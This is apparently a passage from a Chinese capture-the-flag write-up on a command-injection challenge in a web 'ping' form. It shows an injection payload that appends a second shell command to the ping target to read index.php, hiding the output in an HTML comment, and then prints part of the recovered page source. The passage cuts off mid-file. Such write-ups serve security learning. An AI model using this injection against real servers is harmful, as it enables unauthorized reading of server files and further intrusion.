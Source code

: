 ![ping](image-20210303110641399.png "ping")

然后查看index.php文件内容。因为如果直接`cat index.php`的话，会被浏览器解释并执行，所以无法看到文件原本的内容。于是，可以在外面包上一层html注释。

```
127.0.0.1;echo '<!--'`cat index.php`'-->'
```

查看网页源代码，可以获得index.php文件的内容。

```php
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>command execution</title>
    <link
      href="http://libs.baidu.com/bootstrap/3.0.3/css/bootstrap.min.css"
      rel="stylesheet"
    />
  </head>
  <body>
    <h1>PING</h1>
    <form class="form-inline" method="post">
      <div class="input-group">
        <input
          style="width: 280px"
          id="target"
          type="text"
          class="form-control"
          placeholder="请输入需要ping的地址"
          aria-describedby="basic-addon1"
          name="target"
        />
      </div>
      <br />
      <br />
      <button style="width: 280px" class="btn btn-default">PING</button>
    </form>
    <br />
```